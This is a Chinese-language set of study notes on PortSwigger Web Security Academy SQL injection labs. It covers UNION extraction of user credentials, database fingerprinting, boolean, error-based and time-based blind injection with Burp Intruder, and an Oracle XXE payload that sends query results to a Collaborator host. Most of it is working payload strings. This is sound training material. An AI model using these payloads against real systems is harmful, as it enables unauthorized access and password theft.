




针对不同数据库的备忘录可在链接中找。

大体分类：

T0~T1 字符/数字型注入

T2~T5  union注入

T6~T10 数据库的版本问题+union注入和数据库本身保留字

T11~T13盲注

T14带外

# T0允许检索隐藏数据的注入

知道注入点以后，判断属于字符型注入还是数字型注入

```SQL
whatever' or 1=1--
```

url中用加号链接，加号就代表空格

``````
https://insecure-website.com/products?category=Gifts'+OR+1=1--
``````

# T1允许绕过登录的注入

已知我需要拿用户名administrator登录

```SQL
administrator'--
```

# UNION从其他表中检索数据

## T2测试列数

``````sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
或者
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
``````



## T3查找具有有用数据类型的列

通常对我们有用的数据类型都是字符串的形式。

``````SQL
Accessories' UNION SELECT 'nEsVgZ',NULL,NULL-- 
Accessories' UNION SELECT NULL,'nEsVgZ',NULL-- 
Accessories' UNION SELECT NULL,NULL,'nEsVgZ'-- 
``````

用第二行测试的时候能返回出数据，说明字符串变量在中间。

## T4union攻击检索相关数据

```SQL
Accessories' union select username,password from users--
```

获取其他有用的表名以及某些列名[在 SQL 注入攻击中检查数据库 |网络安全学院 (portswigger.net)](https://portswigger.net/web-security/sql-injection/examining-the-database)

爆得管理员账号和密码：`administrator`   `oqo2a0518xsi2ewtfs44`

## T5检索单个列中的多个值

> 为什么要让返回的多个字段拼接成一个字段的原因：
>
> > 因为注入点的限制发现，有用的字符类型 的列只有一列（也就是只能查到一个字段的数据），
> >
> > 而我们需要的数据有好几列，所以想要查到的数据完整，只能用拼接的方式。

检查列数和字符列是哪一个：

```SQL
Accessories' union select null,'aca'-- 
#试过第二列一列是字符型
```

用保留字爆出表名，找到可能存储的user表：

```SQ;
Accessories' union select null,table_name from information_schema.TABLES--
```

继续爆出列名，发现password、username：

```SQL
Accessories' union select null,column_name from information_schema.columns where table_name='users'--
```

但是因为我们要查两个字段的内容，而注入点只能返回一个字段的东西,所以想到用拼接函数构造payload：

```SQL
Accessories' union select null,CONCAT_WS('~',USERNAME,PASSWORD) from USERS--
```

# SQL注入检查数据库

>  不同数据库的目录清单[SQL注入备忘单|网络安全学院 (portswigger.net)](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## 先确定数据库的版本

- 
- 

### T6查询Oracle的类型和版本

首先确定了列数以及类型

```SQL
Accessories'union select null,null from dual--
Accessories'+UNION+SELECT+'abc','def'+FROM+dual--
```

然后查询数据库版本

```SQL
Accessories' UNION SELECT banner,'null' FROM v$version--
```

### T7查询Microsoft的类型和版本

>  踩坑：
>
> sql注入的语句要写在burpsuite抓到的包里，且空格需要用加号代替。才能看出返回的结果到底报不报错。

```sql
gifts'+union+select+@@version,'null'#
```

## 再查询库本身带的保留字

- 

### T8列出非Oracle数据库的内容

```SQL
' union select 'null','null'#
' union select table_name,null from information_schema.tables--
```

找到可能的用户名-密码表“users_czbssr”

```SQL
' union select column_name,null from information_schema.columns WHERE table_name='users_czbssr'--
```

找到可能的两个列名username_cbmpsc、password_tcusrs

```SQL
' union select username_cbmpsc,password_tcusrs from users_czbssr--
```

找到administrator对应的密码。

### T9列出Oracle上的数据库内容

判断出有两个都为字符类型的列：

```SQL
Lifestyle'+union+select+'null','null'+from+dual--
```

Oracle查表用`all_tables`

```SQL
Lifestyle'+union+select+table_name,'null'+from+all_tables--
```

找到可能的表名USERS_OJOCYX，接着查可能的列名本身（在all_tab_columns里找）：

```SQL
Lifestyle'+union+select+COLUMN_name,'null'+from+all_tab_columns+where+table_name='USERS_LTNNSA'--
#踩坑：只能是双引号不能是单引号
```

找到可能的列PASSWORD_BOGRBE，USERNAME_HUXQNN查列中的数据：

```sql
Lifestyle'+union+select+PASSWORD_TPSLJZ,USERNAME_EGBQKW+from+USERS_LTNNSA--
```


# Oracle数据库的SQL注入

> 不同版本的数据库+检查数据库
>
> [Examining the database in SQL injection attacks | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/examining-the-database)

## Oracle与Mysql的最大区别

- **Oracle会对字段的类型敏感**，也就是说我们需要在字符型字段使用字符型类型，在整型字段使用整型数据才可以。

  比如不能直接：

  ```SQL
  ' UNION select 1,2#
  ```

  而是应该：

  ```SQL
  ' UNION select 'null','null' from dual# 
  ```

- 如果是Oracle数据库，**在进行union注入时，要额外加上`from dual`**

  比如：

  ```SQL
  Accessories'union select null,null from dual--
  Accessories'+UNION+SELECT+'abc','def'+FROM+dual--
  ```

  `dual`是Oracle中内置的一个表格

- **不会有信息模式的视图**

## T10判断是否是Oracle数据库

例如：（假设有两个列）

```sql
' order by 2--     返回200正确
' union select null,null--		返回500错误
```

说明一定是Oracle，因为只有Oracle的联合注入必须要加`from dual`

```SQL
' union select null.null FROM dual--		返回200正确
```

## Oracle常用符号之双管道序列

在Mysql和maria中是“或”的意思。

`||`做字符串的串联/链接

> 用合适的分隔符做分区组合

```SQL
' UNION SELECT username || '~' || password FROM users--
#表示把查询到的username和password用符号‘~’链接起来,即username~password
```

> 做链接的内容是执行后的sql语句

```SQL
TrackingId=xyz'||(SELECT '')||'
TrackingId=xyz'(SELECT '')'
```

## Oracle特有关键字和函数

- `ROWNUM`,限制查询的行数

  等同于MySQL的`limit`

- `to_char()`

  将数值型或者日期型转化为字符型

  > 1/0是必须加这个函数

- `SUBSTR(PASSWORD,1,1)`

  等同于Mysql中的SUBSTRING()函数

  > 截取字符串，从第一个位置截取长度为1的字符串

# 盲注

## T11布尔注入

> 正确会返回welcome back，但错误时不会回显任何东西，只会和原页面无异。
>
> 正确和错误都是200。

本例中注入点在cookie，抓包获得，判断是否可注,此处因为是字符变量，所以注入写成字符型

```SQL
TrackingId=skltCt9gC13tASAk' AND '1'=1
```

判断是否存在user表和username=‘administrator’的一行

```SQL
skltCt9gC13tASAk' and (SELECT 'A' FROM users WHERE username='administrator')='A
```

attack出密码长度，发现是20位

```SQL
TrackingId=skltCt9gC13tASAk' AND ( select 'a' from users where username='administrator' AND LENGTH(password)>§1§)='a
```

- 要知道这里的where后面的and前后的东西是一起的，都是对于select的限制，而不是and相连的布尔判断式

  ```SQL
  where username='administrator' AND LENGTH(password)>§1§
  ```

- 为什么intruder后length不同就能判断出密码的长度？

  

  因为这里的length代表的是**反应时长**，因为**密码正确和错误所反应的时间是不同的**。

然后继续爆出密码。

```SQL
TrackingId=skltCt9gC13tASAk' AND (select SUBSTRING(password,$1$,1) from users where username='administrator')='$a$

```

## T12报错盲注

### 方法一：利用`||`(Oracle、PostgreSQL数据库优先考虑此方法)

==首次卡在管道的逻辑理解上==

**本题是Oracle数据库**

> 直接错误（sql语句错误）时或者正确时都不会返回任何东西。
>
> 只有当输入语句本身错误（sql语法错误）（比如1/0）时才会报错。故可以利用此倒推
>
> 正确和错误都是200，但报错是500

在注入点cookie判断是否可用报错注入（即是否对语法错误敏感）:

- 方法一：

```SQL
TrackingId=xyz'' #正确
TrackingId=xyz' #错误
```

- 方法二：

```SQL
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' #返回错误
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' #返回正确
```

然后运用`||`,并且确定是Oracle数据库：

```SQL
TrackingId=xyz'||(SELECT '' FROM dual)||' #正确
TrackingId=xyz'||(SELECT '')||' #错误
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||' #查一个不存在的表，返回错误，确定这个点能注
```

确定想要查的表是否存在和想要查的用户名是否存在：

```SQL
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
#有ROWNUM限制是因为，用||的前后select语句必须是返回的相同行

TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
#确定是否有administrator用户名
```

确定密码长度：

```SQL
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

确定密码：

```SQL
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

### 方法二：利用`and`

确定了是Oracle数据库：

```SQL
TrackingId=LKhHSsm70t3BWS33' and (SELECT 'a' FROM dual)='a-- #返回200
TrackingId=LKhHSsm70t3BWS33' and (SELECT 'a')='a-- #返回500
```

判断是否存在语法错误的两种方法,判断结果为存在：

```SQL
#因为是Oracle数据库，所以必须1/0时有to_char()函数女，且要有 from dual
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a--  #返回200
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a--   #返回500
```

```SQL
TrackingId=xyz'' #正确
TrackingId=xyz' #错误
```

确定是否有users表和user=administrator的用户：

```SQL
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM users where username='administrator')='a-- 
#返回200，说明有
```

确定密码位数，为20位：

```SQL
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE when LENGTH(password)>§1§ THEN TO_CHAR(1/0) ELSE 'a' END FROM users where username='administrator')='a--
```

确定密码：

```SQL
#爆失败
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE when (1=2) THEN TO_CHAR(1/0) ELSE SUBSTR(PASSWORD,§1§,1) END FROM users where username='administrator')='§a§--
#爆成功
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

==汲取经验：==

> 爆失败是因为：
>
> **`CASE..WHEN..THEN..ELSE`逻辑问题**
>
> > 语法正确和语法错误的两种情况并没有在Intruder中都用到(这样就会使得全都返回200，bp中就看不出来了所以也谨记，**bp密码爆破的原理是返回的状态不一样**)。即**并没有在所有情况的爆破中出现`THEN...ELSE...`两边的情况。**
> >
> > 即**我们的密码判断是否是某个字符的表达式应该在`SELECT CASE WHEN`后面**

改进，爆密码，爆成功！：

```SQL
TrackingId=LKhHSsm70t3BWS33' and (SELECT CASE when SUBSTR(PASSWORD,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE 'A' END FROM users where username='administrator')='A--
```

## T13 时间盲注

#### 坑：URL编码

`%3B`=`;`

**但有的时候语句中有`;`不可以，但有`%3B`可以**，所以语句注入没有效果时，应该考虑将语句中的所有符号或者空格全都转换成URL编码格式。

猜测是因为：有的浏览器本身没有自带转换URL编码的功能。

#### PostgreSQL数据库

> 检查是否有时间盲注的漏洞。

```SQL
#方法一：
TrackingId=x'||pg_sleep(10)--
#方法二：
';select pg_sleep(10)--堆叠注入
' union select 1,2,pg_sleep(10)--或者和union结合在一起，需要预先知道列数
```

> 用测试的布尔条件来确认是否有时间盲注漏洞

```sql
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

> 测试是否有这一个数据

```SQL
#如何在case when then else中加入列名
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END  from users--
```

> 爆密码长度，为20

```SQL
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (username='administrator' AND length(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END  from users--
```

> 爆出密码
>
> 建议时间注入的爆密码一个一个爆
>
> 如果要看返回的时长：To see it, go to the "Columns" menu, and check the box for "Response received"

```SQL
TrackingId=1eM6rdiubc194K4O'%3BSELECT CASE WHEN (username='administrator' AND substring(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users--
```

`32wja67xqtddkxtz45o2`

## T14 OAST盲注

#### Oracle

- `extractvalue(目标XML文档，XML路径)`对XML文档进行查询的函数。

- `xmltype()`在Oracle 10g中是作为专门的保存XML格式

- 一般注入样例

  ```SQL
  SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') 
  FROM dual
  ```

  本题payload：

  ```SQL
  '+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
  ```
